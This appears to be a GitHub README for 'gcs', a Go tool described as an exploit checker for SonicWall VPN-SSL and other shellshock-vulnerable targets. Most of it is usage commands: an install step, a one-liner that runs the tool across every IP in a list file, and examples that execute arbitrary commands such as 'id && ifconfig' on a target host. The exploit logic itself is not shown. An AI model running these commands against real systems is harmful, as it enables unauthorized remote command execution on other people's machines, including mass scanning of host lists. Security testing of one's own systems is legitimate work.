 # gcs
SonicWall VPN-SSL Exploit Checker* using Golang ( * and other targets vulnerable to shellshock ).

# Install
```
▶ go get -v github.com/gustavorobertux/gcs
```
# Basic Usage
### oneliner
```
▶ for i in $(cat list.txt) ; do echo $i | xargs gcs -i ; done
```
### Simple command - Default -c echo
```
▶ gcs -i x.x.x.x
```
### With commands
```
▶ gcs -i x.x.x.x -c id
▶ gcs -i x.x.x.x -c 'id && ifconfig'
```
# Screenshot
<p align="center"><img src="https://github.com/gustavorobertux/gcs/blob/main/gcs.png" width="90%"></p>
